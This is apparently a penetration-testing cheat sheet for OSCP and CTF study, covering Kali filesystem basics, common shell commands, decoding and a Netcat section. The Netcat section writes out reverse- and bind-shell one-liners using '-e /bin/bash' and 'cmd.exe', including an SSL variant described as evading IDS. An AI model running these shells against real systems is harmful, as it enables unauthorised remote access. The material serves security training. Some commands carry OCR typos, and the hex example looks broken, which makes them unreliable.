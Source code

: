 The Linux Filesystem

Kali Linux adheres to the filesystem hierarchy standard (FHS),35 which provides a 
familiar and universal layout for all Linux users. The directories you will find most useful are:


• /bin - basic programs (ls, cd, cat, etc.)

• /sbin - system programs (fdisk, mkfs, sysctl, etc)

• /etc - configuration files

• /tmp - temporary files (typically deleted on boot)

• /usr/bin - applications (apt, ncat, nmap, etc.)

• /usr/share - application support and data files



man ls 
Most executable programs intended for the Linux command line provide a 
formal piece of documentation often called manual or man pages.36 A special program called man is used to view these pages.



The below commands will list all .txt files to identify the flags. Used in several CTFs and useful for the OSCP challenge.
WINDOWS

(for /R ".\" %A in (*.txt) do echo %~fA %~zA) | findstr /v "echo

LINUX 

“ind . -type f -name "*.txt"
====================================

Vim cheat sheet 
https://vim.rtorr.com/
====================================

Set the Target IP Address to the $ip system variable
export ip=192.168.1.100
====================================

Find location of file
locate sbd.exe
====================================

Search through dirs in the $PATH environment variable
which sbd
====================================

Find a search for a file that contains a specific string in it’s name:
find / -name sbd\*
====================================

Show active internet connections
netstat -a
====================================

Change Password
passwd
====================================

Verify a service is running and listening
netstat -antp |grep <servicename>
====================================

Start a service
systemctl start ssh

systemctl start apache2

Have a service start at boot
systemctl enable ssh

Stop a service
systemctl stop ssh
====================================

Unzip a gz file
gunzip access.log.gz

Unzip a tar.gz file
tar -xzvf file.tar.gz
====================================

Search command history
history | grep phrase_to_search_for
====================================

Download a webpage
wget http://www.cisco.com
====================================

Open a webpage
curl http://www.cisco.com ( -v)
====================================

String manipulation

    Count number of lines in file
    wc -l index.html

    Get the start or end ohead f a file
    head index.html

    tail index.html

    Extract all the lines that contain a string
    grep "href=" index.html

    Cut a string by a delimiter, filter results then sort
    grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u

    Using Grep and regular expressions and output to a file
    cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt

    Use a bash loop to find the IP address behind each host
    for url in $(cat list.txt); do host $url; done

    Collect all the IP Addresses from a log file and sort by frequency
    cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn
====================================

Decoding using Kali

    Decode Base64 Encoded Values

    echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode

    Decode Hexidecimal Encoded Values
    echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps
====================================

Netcat - Read and write TCP and UDP Packets

    Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems): https://joncraton.org/blog/46/netcat-for-windows/

    Connect to a POP3 mail server
    nc -nv $ip 110

    Listen on TCP/UDP port
    nc -nlvp 4444

    Connect to a netcat port
    nc -nv $ip 4444

    Send a file using netcat
    nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe

    Receive a file using netcat
    nc -nlvp 4444 > incoming.exe

    Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

    whereis nc
    nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

    /bin/nc.traditional -e /bin/bash 1.2.3.4 4444

    Create a reverse shell with Ncat using cmd.exe on Windows
    nc.exe -nlvp 4444 -e cmd.exe

    or

    nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe

    Create a reverse shell with Ncat using bash on Linux
    nc -nv $ip 4444 -e /bin/bash

    Netcat for Banner Grabbing:

    echo "" | nc -nv -w1 <IP Address> <Ports>

Ncat - Netcat for Nmap project which provides more security avoid IDS

    Reverse shell from windows using cmd.exe using ssl
    ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl

    Listen on port 4444 using ssl
    ncat -v $ip 4444 --ssl

